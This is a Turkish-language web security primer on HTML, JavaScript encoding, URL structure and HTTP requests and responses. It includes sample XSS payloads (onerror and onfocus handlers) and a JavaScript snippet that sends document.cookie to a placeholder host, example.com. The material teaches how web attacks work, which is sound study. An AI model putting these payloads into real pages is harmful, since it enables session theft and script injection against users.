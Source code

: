 # Web Standartları

## HTML

WEB’in temelini oluşturan içerik ve yapı sunma dilidir.

| <p><strong>&#x3C;p> Bu bir paragraftır &#x3C;/p></strong></p><p><strong>&#x3C;script src=”</strong><a href="http://example.com/abc.jpg"><strong>http://example.com/abc.jpg</strong></a><strong>”>&#x3C;/script></strong></p><p><strong>&#x3C;img src=”” onerror=”prompt()”/></strong></p><p><strong>&#x3C;input onfocus=alert(1) autofocus></strong></p> |
| -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |

HTML içerisinde birçok farklı özellik bulunur. Bunların örneklerini aşağıda bulabilirsiniz.

| **HTML Element**       | **\<div>...\</div>**         |
| ---------------------- | ---------------------------- |
| **HTML Attribute**     | **\<div id=...>**            |
| **HTML JavaScript**    | **\<div onmouseover=”...”>** |
| **HTML URL Attribute** | **\<script src=”..”>**       |

HTML dilinde birçok **özel karakter** bulunmaktadır. Bu karakterlerin kaynak kodda yazılması durumunda tarayıcı bunları göstermeyecek, HTML olarak yorumlamaya çalışacaktır. Bu özel karakterlerin tarayıcıda gösterilmesini gerektiren durumlarda, tarayıcının bunları özel karakter olarak algılamaması için **HTML kodlama** kullanılır. Aşağıda iki özel karakterin onluk ve onaltılık HTML kodlama karşılıkları verilmiştir. Bu değerler yazıldığında tarayıcıda ilgili karakterin ekrana çıktı olarak verildiği görülebilir.

| **Karakter** | **HTML Kodlama (Ondalık)** | **HTML Kodlama (On altılık)** |
| ------------ | -------------------------- | ----------------------------- |
| **<**        | **\&#60**                  | **\&#x003C**                  |
| **“**        | **\&#34**                  | **\&#0022**                   |

## Javascript

Javascript WEB 2.0 fenomeninin temelini oluşturur.

| <p><strong>var f = function(t) {return t*t};</strong></p><p><strong>f.myvar = 3;</strong></p><p><strong>alert(f(5));</strong></p><p> <strong></strong> </p><p><strong>var i = new Image();</strong></p><p><strong>var c = document.cookie;</strong></p><p><strong>i.src = “</strong><a href="http://example.com/i"><strong>http://example.com/i</strong></a><strong>?” + c;</strong></p> |
| ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |

HTML dilinde de olduğu gibi JS dilinde de özel karakterler bulunur ve bunların JS kodu olarak algılanmayıp ekranda gösterilebilmesi için tırnak içinde alınan Javascript değerlerinin **\xHH** formatında **Javascript kodlaması** yapılır.

| **Karakter** | **Javascript Kodlama** |
| ------------ | ---------------------- |
| **<**        | **\x3c**               |
| **“**        | **\x22**               |

## URL

URL, Web’de bulunan dokümanlara ve diğer kaynaklara ulaşılmasını sağlayan adresleme standardıdır. Tipik bir URL formatı aşağıdaki gibidir.

| <p><mark style="color:red;"><strong>scheme</strong></mark><strong>://</strong><mark style="color:orange;"><strong>host</strong></mark><strong>:</strong><mark style="color:purple;"><strong>port</strong></mark><strong>/</strong><mark style="color:blue;"><strong>path</strong></mark><strong>?</strong><mark style="color:green;"><strong>parameter=value</strong></mark><strong>&#x26;#anchor</strong></p><p> <strong></strong> </p><p><mark style="color:red;"><strong>https</strong></mark><strong>://</strong><mark style="color:orange;"><strong>example.com</strong></mark><strong>:</strong><mark style="color:purple;"><strong>8090</strong></mark><strong>/</strong><mark style="color:blue;"><strong>index.php</strong></mark><strong>?</strong><mark style="color:green;"><strong>id=admin</strong></mark><strong>&#x26;#anchor</strong></p> |
| ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |

URL içerisinde özel karakterleri gönderebilmek için **%HH** formatında **URL kodlama** yapılır.

## HTTP

İnternet üzerinden dokümanların transfer edilme standardıdır. Bugüne kadar 4 versiyonu resmi olarak yayınlanmıştır. HTTP 3 henüz taslak halindedir.

* HTTP 0.9
* HTTP 1.0
* HTTP 1.1
* HTTP 2

HTTP protokolünde kullanılabilecek çok sayıda metot vardır. Bunların bazıları (**DEBUG, TRACE vb.**) sunucu ya da uygulama işleyişi hakkında bilgi vermesi nedeniyle güvenli kabul edilmez ve **canlı sistemlerde kullanılmamaları** gerekir. Doküman almak için kullanılan HTTP istekleri **GET** ve **POST** yöntemleridir.

**HTTP GET** isteklerinde parametre ve aldıkları değerler URL içerisinde bulunur. Bu nedenle kimlik doğrulama gibi **kritik verilerin gönderileceği uygulamalarda kullanılmaması gerekmektedir**.

**Örnek bir HTTP GET İsteği:**

| <p><strong>GET /index.jsp HTTP/1.1</strong></p><p><strong>User-Agent: Mozilla/4.0 (MSIE 6.0, …</strong></p><p><strong>Host: example.com</strong></p><p> <strong></strong> </p> |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |

**Örnek bir HTTP POST İsteği:**

| <p><strong>POST /login.jsp HTTP/1.1</strong></p><p><strong>User-Agent: Mozilla/4.0 (MSIE 6.0, ..</strong></p><p><strong>Host: example.com</strong></p><p><strong>Proxy-Connection: Keep-Alive</strong></p><p><strong>Content-Type: application/x-www-form-urlencoded</strong></p><p><strong>Content-Length: 30</strong></p><p> <strong></strong> </p><p><strong>login=webappsec&#x26;passwd=S3cretPa$$w0rd!</strong></p> |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |

Sunucu HTTP isteklerine, HTTP yanıtlar ile cevap verir. HTTP cevaplarının belirli anlamlara gelen [durum kodları](https://en.wikipedia.org/wiki/List\_of\_HTTP\_status\_codes) bulunmaktadır. Örneğin, yapılan istek karşılığında sunucu istenilen dosya sorunsuz olarak bulundu ise **200 OK**, istenilen dosya bulunamadı ise **404 Not Found** cevabı dönecektir.

**Örnek bir HTTP Yanıtı:**

| <p><strong>HTTP/1.1 200 OK</strong></p><p><strong>Date: Fri, 31 Mar 2012 10:08:00 GMT</strong></p><p><strong>Server: Apache/2.47</strong></p><p><strong>Content-Length: 92</strong></p><p> <strong></strong> </p><p><strong>&#x3C;html></strong></p><p><strong>&#x3C;head>&#x3C;/head>&#x3C;body>...&#x3C;/html></strong></p> |
| ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |

Saldırganlar, HTTP istek paketlerini manipüle ederek, uygulamanın amacı dışında çalışmasını amaçlar.
